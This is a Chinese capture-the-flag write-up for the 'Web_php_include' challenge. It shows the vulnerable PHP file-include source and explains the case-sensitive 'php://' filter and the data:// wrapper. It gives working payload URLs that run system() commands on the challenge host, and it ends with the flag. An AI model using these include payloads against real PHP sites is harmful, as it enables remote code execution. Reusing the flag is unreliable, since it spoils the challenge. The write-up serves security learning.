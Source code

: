 # Web_php_include

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=ce6391a6-7070-4410-9d33-5b23967e77f1_2)

这里介绍最简单的方法之一。其实还有很多相对复杂但很牛逼的方法，比如传木马，数据库写入什么的，但背后的关键点都在于php伪协议的使用。

```php
<?php
show_source(__FILE__);
echo $_GET['hello'];
$page=$_GET['page'];
while (strstr($page, "php://")) {
    $page=str_replace("php://", "", $page);
}
include($page);
?>
```

可以看到源代码会包含page参数传入的文件。文件名的过滤也很少，只过滤了php://，甚至连大写的都没过滤。

- ### strstr()
- > 搜索字符串在另一字符串中是否存在，如果是，返回该字符串及剩余部分，否则返回 FALSE。
- > 语法：strstr(string,search,before_search)
- > string:必需。规定被搜索的字符串。
- > search:必需。规定要搜索的字符串。如果该参数是数字，则搜索匹配该数字对应的 ASCII 值的字符。
- > before_serach:可选。一个默认值为 "false" 的布尔值。如果设置为 "true"，它将返回 search 参数第一次出现之前的字符串部分。

注意这个函数是大小写敏感的。这里可以用PHP://绕过，也可以考虑另外一个php伪协议：data://

- ### data://
- > 必要条件：开启allow_url_fopen和allow_url_include。
- > 作用：自PHP>=5.2.0起，可以使用data://数据流封装器，以传递相应格式的数据。通常可以用来执行PHP代码。
- > 用法：data://text/plain,或data://text/plain;base64,
- > 注意：,必需，plain后传明文，base64后传base64加密后的密文。

那这样就很简单了。我们可以用data://来传一个php代码，其中调用system()来执行我们想要的任意命令。

- http://61.147.171.105:53084/?page=data://text/plain,%3C?php%20system(%22ls%22)?%3E
- > 输出：fl4gisisish3r3.php index.php phpinfo.php

输出中看到fl4gisisish3r3.php是我们的目标。

- http://61.147.171.105:53084/?page=data://text/plain,%3C?php%20system(%22cat%20fl4gisisish3r3.php%22)?%3E

要注意的是上面这串执行完成后并不能直接看到，要用开发者工具检查元素，flag在注释里。

- ### Flag
- > ctf{876a5fca-96c6-4cbd-9075-46f0c89475d2}